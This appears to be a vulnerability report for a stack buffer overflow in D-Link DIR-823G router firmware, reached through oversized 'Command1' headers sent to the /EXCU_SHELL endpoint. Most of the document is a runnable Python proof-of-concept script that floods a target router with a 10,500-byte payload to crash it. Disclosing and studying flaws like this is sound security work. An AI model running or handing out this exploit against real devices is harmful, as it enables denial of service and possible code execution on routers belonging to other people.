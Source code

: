 # Bug Report: Buffer Overflow in D-Link DIR-823G Router
A critical buffer overflow vulnerability has been identified in the D-Link DIR-823G router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: D-Link DIR-823G Wireless Router
- **Affected Version**: A1V1.0.2B05
- **Download Source**: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/EXCU_SHELL` endpoint and handles the `Command1` header parameter. When `FillMacCloneMac` is specified with excessive data, the buffer overflow occurs during string concatenation operations.

![alt text](image-2.png)
## poc
![alt text](image.png)
![alt text](image-3.png)

## Reproduce
```python
#!/usr/bin/env python3
import requests
import sys

def exploit(target, overflow_size=10500):
    url = f"{target}/EXCU_SHELL"
    
    # Create overflow payload
    overflow_payload = "A" * overflow_size
    
    headers = {
        'Command1': 'FillMacCloneMac' + overflow_payload,
        'Confirm1': 'apply'
    }
    
    # Try to control a1+12 (MAC data) via cmd0
    data = {
        'test'
    }
    
    print(f"[*] Target: {target}")
    print(f"[*] Overflow size: {overflow_size}")
    print(f"[*] Sending FillMacCloneMac with cmd0 overflow...")
    
    try:
        response = requests.post(
            url,
            headers=headers,
            data=data,
            timeout=10,
            verify=False
        )
        
        print(f"[+] Status: {response.status_code}")
        print(f"[+] Response: {response.text}")
        
    except requests.exceptions.Timeout:
        print("[!] Timeout - possible crash")
    except requests.exceptions.ConnectionError:
        print("[!] Connection error - possible crash")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 poc.py <target> [overflow_size]")
        print("Example: python3 poc.py http://192.168.0.1 10500")
        sys.exit(1)
    
    target = sys.argv[1]
    overflow_size = int(sys.argv[2]) if len(sys.argv) > 2 else 10500
    
    exploit(target, overflow_size)
```

